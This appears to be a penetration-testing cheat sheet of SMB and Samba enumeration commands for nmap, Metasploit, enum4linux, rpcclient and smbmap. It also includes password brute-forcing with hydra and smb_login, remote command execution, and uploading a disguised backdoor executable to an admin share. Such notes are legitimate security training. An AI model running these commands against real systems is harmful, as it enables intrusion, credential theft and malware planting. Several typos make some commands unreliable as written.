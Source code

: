 [home](../README.md)

---

## SMB Enumeration with NMAP (INE)  

**smb-protocols** will check the versions (dialects) of SMB that the target machine uses<br>
```bash
nmap -p445 --script smb-protocols <IP>
```
**smb-security-mode** will check the security level of the SMB configuration<br>
```bash
nmap -p444 --script smb-security-mode <IP>
```
**--script-args** is optional for most of these but may not return any information if **guest** access is disabled or does not have enough permissions<br>
```bash
nmap -p445 --script smb-enum-domains --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-shares --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-users --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-groups --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-sessions --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-server-stats --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-services --script-args smbusername=<username>,smbpassword=<password> <IP>

nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=<username>,smbpassword=<password> <IP>
```

## Enumerating Samba

Checking default UDP ports (137,138) for **nmbd** service<br>
```bash
nmap -sU [-p port/portrange] <IP>
```
Checking OS and Samba version using **nmap**<br>
```bash
nmap -p445 --script smb-os-discovery <IP>
```
Checking Samba version using **msfconsole**
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set rhosts <IP>
run
```
Checking NetBIOS computer name using **nmblookup**<br>
[nmblookup output explained](https://superuser.com/questions/710304/how-to-interpret-output-of-nmblookup-a)
```bash
nmblookup -A <IP>
```
Checking for **NULL** sessions with **smbclient**<br>
If you get share information, then null session connection was successful<br>
```bash
smbclient -L <IP> -N
```
Checking for **NULL** sessions with **rpcclient**<br>
If you get "rpcclient $>" prompt, then run "?" for help<br>
```bash
rpcclient -U "" -N <IP>
rpcclient $> ?
```
Some helpful rpcclient commands
```bash
srvinfo
enumdomusers
enumdomgroups
lookupnames <username>
```
Checking OS version using **enum4linux**
```bash
enum4linux -o <IP>
```
Checking if SMBv2 is supported using **msfconsole**
```bash
msfconsole
use auxiliary/scanner/smb/smb2
set rhosts <IP>
run
```
Checking SMB users with **msfconsole**
```bash
msfconsle
use auxiliary/scanner/smb/smb_enumusers
set rhosts <IP>
run
```
Checking SMB users with **enum4linxu**
```bash
enum4linux -U <IP>
```
Checking SMB shares with **msfconsole**
```bash
msfconsole
use auxiliary/scanner/smb/smb_enumshares
set rhosts <IP>
run
```
Checking SMB shares with **enum4linux**
```bash
enum4linux -S <IP>
```
Checking SMB groups with **enum4linx**
```bash
enum4linux -G <IP>
```
Checking SMB printer configuration(s) with **enum4linux**
```bash
enum4linux -i <IP>
```
Brute force password for a user using **msfconsole**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set pass_file </path/to/wordlists/passwords.txt>
set smbuser <username>
set rhosts <IP>
run
```
Brute force password for a user using **hydra**
```bash
hyrda -l <username> -P </path/to/wordlists/password.txt> <IP> <protocol>
hyrda -l admin -P </path/to/wordlists/password.txt> <IP> smb
```
Listing named pipes in SMB using **msfconsole**
```bash
msfconsole
use auxiliary/scanner/smb/pipe_aduitor
set smbuser <username>
set smbpass <password>
set rhosts <IP>
run
```
List the SID of users with RID cycling using **enum4linux**
```bash
enum4linux -r -u "<username>" -p "<password>" <IP>
```
Checking SMB shares with guest access using **smbmap**
```bash
smbmap -u guest -p "" -H <IP>
smbmap -u <admin> -p <password> -H <IP>
```
Execute a command using **smbmap**
```bash
smbmap -u <admin> -p <password> -H <IP> -x '<command>'
smbmap -u <admin> -p <password> -H <IP> -x 'ipconfig'
```
List all drives on specifice host using **smbmap**
```bash
smbmap -H <IP> -u <admin> -p <password> -L
```
List the contents of a specific drive using **smbmap**
```bash
smbmap -H <IP> -u <admin> -p <password> -r '<drive>'
smbmap -H <IP> -u <admin> -p <password> -r 'C$'
```
Misc. stuff with **smbmap**
```bash
smbmap -H <IP> -u <admin> -p <password> --upload '/path/to/backdoor.exe' 'C$\totally_normal_file.exe'

smbmap -H <IP> -u <admin> -p <password> --download 'C$\super_private_file.txt'
```

## References & Further Reading:
- [Samba](https://wiki.samba.org/index.php/Main_Page)
- [CIFS](http://www.ubiqx.org/cifs/)



---
[home](../README.md)
